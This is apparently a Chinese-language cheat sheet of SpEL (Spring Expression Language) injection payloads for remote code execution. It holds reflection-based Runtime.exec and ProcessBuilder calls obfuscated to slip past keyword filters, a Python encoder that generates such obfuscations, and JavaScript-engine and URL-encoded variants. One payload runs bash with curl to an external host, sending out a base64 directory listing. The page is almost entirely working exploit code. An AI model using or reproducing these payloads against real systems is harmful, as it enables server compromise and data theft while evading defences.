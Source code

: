 ```java
// 同上，需要有上下文环境
#this.getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),new String[]{"cmd","/C","calc"})
// ProcessBuilder
#{(T(String).getClass().forName("java.la"+"ng.ProcessBuilder").getConstructor('foo'.split('').getClass()).newInstance(new String[]{'calc.exe'})).start()}
#{(T(String).getClassLoader().loadClass(("java.la"+"ng.ProcessBuilder").getConstructor('foo'.split('').getClass()).newInstance(new String[]{'calc.exe'})).start()}
// exec
T(String).getClass().forName('java.la'+'ng.Ru'+'ntime').getMethod('ex'+'ec',T(String[])).invoke(T(String).getClass().forName('java.la'+'ng.Ru'+'ntime').getMethod('getRu'+'ntime').invoke(T(String).getClass().forName('java.la'+'ng.Ru'+'ntime')), new String[]{'/bin/bash','-c','curl http://abcdef.ceye.io/`cd / && ls|base64|tr \"\n\" \"-\"`'})
```
## 关键字绕过
```java
//byte数组内容生成
new java.lang.ProcessBuilder(new java.lang.String(new byte[]{99,97,108,99})).start()
T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(108)).concat(T(java.lang.Character).toString(99)))
```
用于String类动态生成字符的字符ASCII码转换生成:
```python
message = input('Enter message to encode:')
print('Decoded string (in ASCII):\n')
print('T(java.lang.Character).toString(%s)' % ord(message[0]), end="")
for ch in message[1:]:
   print('.concat(T(java.lang.Character).toString(%s))' % ord(ch), end=""), 
print('\n')

print('new java.lang.String(new byte[]{', end=""),
print(ord(message[0]), end="")
for ch in message[1:]:
   print(',%s' % ord(ch), end=""), 
print(')}')
```
## JavaScript引擎通用PoC
```java
T(javax.script.ScriptEngineManager).newInstance().getEngineByName("nashorn").eval("s=[3];s[0]='cmd';s[1]='/C';s[2]='calc';java.la"+"ng.Run"+"time.getRu"+"ntime().ex"+"ec(s);")
T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName("JavaScript").eval("xxx"),)
//JavaScript引擎+反射调用
T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName("JavaScript").eval(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),new String[]{"cmd","/C","calc"})),)
//JavaScript引擎+URL编码
T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName("JavaScript").eval(T(java.net.URLDecoder).decode("%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%2e%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%22%63%61%6c%63%22%29%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29")),)
```
## 黑名单过滤".getClass("，未测试成功
```java
''['class'].forName('java.lang.Runtime').getDeclaredMethods()[15].invoke(''['class'].forName('java.lang.Runtime').getDeclaredMethods()[7].invoke(null),new String[]{'cmd','/c','calc'})
```